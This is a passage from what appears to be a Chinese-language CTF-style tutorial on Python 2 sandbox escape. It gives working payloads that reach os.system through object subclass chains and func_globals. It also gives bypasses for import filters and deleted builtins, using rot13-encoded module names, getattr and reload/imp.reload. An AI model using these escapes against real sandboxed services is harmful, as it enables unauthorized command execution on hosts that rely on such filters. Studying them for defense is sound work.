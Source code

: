 ```python
>>> ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os']
<module 'os' from 'D:\Python\Python27\lib\os.pyc'>
```
成功获取到了os模块，然后命令执行即可
```python
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
```

## 逃逸思路
当函数被禁用时，就要通过一些类中的关系来引用被禁用的函数  

一些常见的寻找特殊模块的方式

- **\_\_class\_\_**:获得当前对象的类
- **\_\_bases\_\_**:列出其基类  
- **\_\_mro\_\_** :列出解析方法的调用顺序，类似于bases
- **\_\_subclasses\_\_()**：返回子类列表
- **\_\_dict\_\_** ： 列出当前属性/函数的字典
- **func_globals**返回一个包含函数全局变量的字典引用


## 一些防御与对抗措施

### 禁止引入敏感包
比如通过正则匹配之类的，拒绝`import os`、`import commands`之类的语句出现  
这是最低级的一种防御措施，可以通过一些编码来进行混淆  

```python
f3ck = __import__("pbzznaqf".decode('rot_13'))
print f3ck.getoutput('ifconfig')
```
或者配合`getattr`函数
```python
import codecs
getattr(os,codecs.encode("flfgrz",'rot13'))('ifconfig')
```
或者进行一些base64,倒序之类的。  
总之，只要找到一个以字符形式执行代码的总是会有办法的

### 删除\_\_builtins\_\_中的函数
就比如之前那个ctf例子中的
```python
for x in targets:
    del __builtins__.__dict__[x]
```
可以通过reload重新导入`__builtins__`模块`reload(__builtin__)`  

reload也是`__builtins__`中的一个函数，假如它也被删了的话，还可以尝试一个imp的模块
```python
import imp
imp.reload(__builtin__)
```
